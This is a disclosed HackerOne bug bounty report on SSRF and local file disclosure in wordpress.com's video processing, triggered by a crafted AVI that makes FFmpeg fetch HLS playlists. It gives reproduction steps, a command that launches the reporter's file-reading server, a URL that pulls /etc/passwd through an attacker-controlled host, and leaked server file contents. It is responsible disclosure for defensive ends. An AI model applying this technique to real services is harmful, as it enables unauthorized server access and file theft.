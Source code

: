 # SSRF and local file disclosure in https://wordpress.com/media/videos/ via FFmpeg HLS processing

## Report Details
- **Report ID**: 237381
- **URL**: https://hackerone.com/reports/237381
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-06-06T21:13:33.946Z
- **Disclosed**: 2017-07-29T15:30:07.191Z

## Reporter
- **Username**: neex
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
### Summary

FFmpeg is a video encoding software that appears to be used by wordpress.com for video processing (for paid accounts). FFmpeg is known to process HLS playlists that may contain references to external files. I was able to fire this feature using GAB2 subtitle chunks inside an AVI file. After that, I was able to retrieve conversion nodes' local files and fire SSRF requests.

# Note that the AVI file attached is not a screen capture of the exploitation process, but the exploit itself. Do not try to play it!

### Reproduction steps for SSRF

1. Open attached file `http_q.avi` in a hex editor and find http link (currently it's `http://45.55.40.92/ssrf_test`). Modify it so it points to a server under your control. **You need to keep binary layout of the file, so you might want to add or remove some `#`s from the comment on the line below**
2. Go to https://wordpress.com/media/videos/<your blog>. **You need paid account to make this work**. Upload the resulting video, then select it, click "Edit" and wait a little bit.
3. You'll receive an HTTP request to your server from some server inside automattic. In the access log, you'll see an entry like this:
   
   ```
   192.0.87.12 - - [06/Jun/2017:21:42:35 +0200] "GET /test_ssrf HTTP/1.1" 200 117 "-" "Lavf/56.25.101"
   ```

   According to whois information, 192.0.87.12 belongs to Automattic, Inc.
    
    
### Reproduction steps for local file disclosure

Reading files is a little bit trickier --- it uses FFmpeg's ability to concatinate all segments of an HLS playlist into another playlist. I wrote a script that exploits this issue, `file_reading_server.py` (attached to the report). You'll need to run it on any server under your control  (of course, the script doesn't need to be run on the target server, it will use the SSRF & HLS playlists to retrieve files from it). 

1. Get a droplet/VPS/whatever with an external IP. Launch my script like this: `python3 file_reading_server.py --external-addr <external-ip-of-your-server> --port 8080` (you'll need python3.5).
2. As in SSRF repro step 1, modify `http_q.avi` so the link inside it will point to your server and be like this: `http://<external-ip-of-your-server>:8080/initial.m3u?filename=/etc/passwd`. You can replace `/etc/passwd` with another filename if you want.
3. As in SSRF repro step 2, upload the resulting file to wordpress.com and click "Edit". After a while, some debug output of my script will be printed to console (because of SSRF requests). Wait until the output stops. Then check the working dir of the script. It will contain a file with name like this: `<some random string>_<filename-without-slashes>`. The contents of this file was received from the node that runs FFmpeg.


Using this approach, I was able to dump `/etc/issue`:
```
Debian GNU/Linux 8 \n \l
``` 

and `/etc/hostname`:
```
tc1.videos.dca.wordpress.com
```


## Attachments
- http_q.avi
- file_reading_server.py
